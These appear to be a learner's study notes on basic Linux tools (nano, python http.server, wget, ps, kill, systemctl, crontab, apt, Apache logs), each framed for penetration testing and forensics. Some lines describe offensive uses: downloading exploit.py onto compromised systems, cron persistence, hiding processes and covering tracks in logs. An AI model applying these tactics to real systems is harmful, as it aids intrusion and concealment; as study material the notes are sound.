 Linux Fundamentals Part 3 - Notes

🔐 Why This Matters for Security

These tools are essential for penetration testing, forensics, and system administration. Here's the practical security stuff I need to remember:

📝 Text Editors (Nano)

Security Use: Quick config edits during exploits or to modify scripts

```bash
nano target.txt                    # Create/edit files
Ctrl+W                             # Search for flags or specific text
Ctrl+X                             # Exit (saves if modified)
```

Used this to search for flags in files during challenges

🌐 File Transfer Tools

Security Use: Moving tools to target machines or exfiltrating data

Python Server (For sharing files)

```bash
python3 -m http.server 8080        # Host files in current directory
```

Great for hosting payloads or tools during pentests

Wget (Download files)

```bash
wget http://192.168.1.100:8080/exploit.py   # Grab files from web servers
```

Perfect for downloading tools to compromised systems

⚙️ Process Management

Security Use: Finding hidden processes, maintaining access, investigating compromises
Finding Processes

```bash
ps aux                             # See ALL running processes
ps aux | grep suspicious           # Look for malicious processes
```
Found flags by searching through process lists

Killing Processes

```bash
kill 1337                          # Graceful kill (asks nicely)
kill -9 1337                       # Force kill (no questions)
```
Use -9 when normal kill doesn't work (stubborn malware)

Service Control
```bash
systemctl stop apache2             # Stop web server
systemctl start ssh                # Start SSH service
```
Important for stopping services during attacks or investigations

🤖 Automation (Crontab)
Security Use: Persistence, scheduled tasks, automation
```bash
crontab -e                         # Edit cron jobs (be careful!)
* * * * * /bin/bash script.sh      # Runs every minute
```
Attackers use this for persistence - check crontab during forensics!

📦 Package Management
Security Use: Installing security tools, updating systems
```bash
apt install nmap                   # Install security tools
apt update && apt upgrade          # Update system (patch vulnerabilities)
```
Always keep systems updated to prevent exploits

📊 Log Analysis
Security Use: Investigating attacks, finding intruders
Apache Logs Location

```bash
/var/log/apache2/access.log        # Who visited the site
/var/log/apache2/error.log         # What went wrong
```

What to Look For
· Suspicious IP addresses - attackers scanning your site
· Strange file accesses - someone looking for sensitive files
· Error patterns - failed login attempts or exploit attempts
Found attacker IPs by checking who accessed flag.txt

💡 Key Security Takeaways

For Attackers (Red Team):
· Use Python servers to transfer tools
· Hide processes to avoid detection
· Use crontab for persistence
· Check logs to cover tracks

For Defenders (Blue Team):
· Monitor running processes for malware
· Check crontab for suspicious jobs
· Analyze logs for attack patterns
· Keep systems updated

For Forensics:
· Process lists show what was running
· Logs reveal attack timeline
· Crontab shows persistence mechanisms

🎯 Real-World Applications
1. Incident Response: Use ps aux to find malicious processes
2. Penetration Testing: Use wget to download exploits
3. Forensics: Analyze logs to reconstruct attacks
4. System Hardening: Remove unnecessary services
